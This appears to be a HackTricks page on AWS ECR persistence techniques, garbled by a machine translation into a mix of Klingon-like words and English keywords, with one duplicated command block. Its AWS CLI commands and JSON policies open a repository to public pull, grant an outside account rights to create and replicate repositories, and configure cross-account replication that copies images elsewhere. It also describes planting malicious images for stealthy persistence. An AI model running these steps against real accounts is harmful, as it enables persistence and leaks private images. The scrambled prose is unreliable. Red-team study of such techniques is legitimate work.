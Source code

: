 # AWS - ECR Qap

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>DaH jImej (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

lo'laHbe'chugh HackTricks:

* **lo'laHbe'chugh HackTricks** vItlhutlh 'ej **HackTricks PDF** download **lo'laHbe'chugh** **advertised company** **DISCOUNT PLANS** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) qaStaHvIS!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) **ghItlh**.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) **ghItlh** [**NFTs**](https://opensea.io/collection/the-peass-family) **ghItlh** **collection**.
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) **telegram group** [**telegram group**](https://t.me/peass) **follow** **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) **HackTricks Cloud** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos**.

</details>

## ECR

For more information check:

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Malicious Code 'ej Hidden Docker Image

**Docker image** **malicious code** **upload** **attacker** **ECR repository** **maintain persistence** **AWS account**. **Attacker** **deploy** **malicious image** **services** **account**, **Amazon ECS** **EKS**, **stealthy manner**.

### Repository Policy

Add a policy to a single repository granting yourself (or everybody) access to a repository:
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
{% hint style="warning" %}
Qapla'! ECR **permission** **`ecr:GetAuthorizationToken`** API **ghaH** **IAM policy** **authentication** **registry** **replication** **external account** **indicate**.
{% endhint %}

### **Registry Policy & Cross-account Replication**

**external account** **replicate** **registry** **configure** **cross-account replication** **indicate**.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**First**, **registry policy** **external account** **access** **registry** **registry policy** **like**:
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
DaH jImej: DaH jImej: 

```
aws ecr put-replication-configuration --region <region> --replication-configuration file://replication-config.json
```

DaH jImej: DaH jImej: 

```
aws ecr put-replication-configuration --region <region> --replication-configuration file://replication-config.json
```
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
<details>

<summary><strong>qaStaHvIS AWS hacking vItlh zero to hero</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
